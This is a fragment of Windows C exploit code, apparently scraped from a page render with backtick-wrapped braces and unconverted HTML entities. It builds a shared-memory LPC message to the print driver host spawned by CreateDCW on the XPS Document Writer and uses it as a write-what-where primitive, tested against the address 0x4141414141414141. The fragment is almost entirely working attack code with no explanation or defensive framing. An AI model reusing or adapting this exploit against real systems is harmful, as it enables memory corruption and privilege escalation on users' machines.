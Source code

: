 ```
        *((UINT64*)ClientView.ViewBase + 0x2D) = 0x500000005;
        *((UINT64*)ClientView.ViewBase + 0x2E) = (UINT64)ClientView.ViewRemoteBase + 0x200;
        *((UINT64*)ClientView.ViewBase + 0x40) = 0x6767;
        *((UINT64*)ClientView.ViewBase + 0x100) = (UINT64)ClientView.ViewRemoteBase + 0x810;
        return ClientView.ViewBase;
`}`

void DebugWrite()
`{`
        printf("Copy from 0x%llX to 0x%llX (0x%llX bytes)\n", *((UINT64*)ClientView.ViewBase + 0x100), *((UINT64*)ClientView.ViewBase + 0xB), *((UINT64*)ClientView.ViewBase + 0x10A) &gt;&gt; 48);
`}`

bool WriteData(HANDLE portHandle, UINT64 offset, UCHAR* buf, UINT64 size)
`{`
        *((UINT64*)ClientView.ViewBase + 0xB) = offset;
        *((UINT64*)ClientView.ViewBase + 0x10A) = size &lt;&lt; 48;
        memcpy(ClientView.ViewBase + 0x810, buf, size);

        DebugWrite();

        return NtRequestWaitReplyPort(portHandle, &amp;LpcRequest, &amp;LpcReply) == 0;

`}`

int main()
`{`

        Init();
        CHAR Path[0x100];
        GetCurrentDirectoryA(sizeof(Path), Path);
        PathAppendA(Path, "CreateDC.exe");
        if (!(PathFileExistsA(Path)))
        `{`
                return 0;
        `}`
        WinExec(Path, 0);

        CreateDCW(L"Microsoft XPS Document Writer", L"Microsoft XPS Document Writer", NULL, NULL);

        UNICODE_STRING portName;
        if (!GetPortName(&amp;portName))
        `{`
                return 0;
        `}`

        HANDLE portHandle = CreatePortSharedBuffer(&amp;portName);
        if (!(portHandle &amp;&amp; ClientView.ViewBase &amp;&amp; ClientView.ViewRemoteBase))
        `{`
                return 0;
        `}`

        PrepareMessage();

        printf("Press [Enter] to continue . . .");
        fflush(stdout);
        getchar();
        UINT64 value = 0;
        if (!WriteData(portHandle, 0x4141414141414141, (UCHAR*)&amp;value, 8))
        `{`
                return 0;
        `}`

```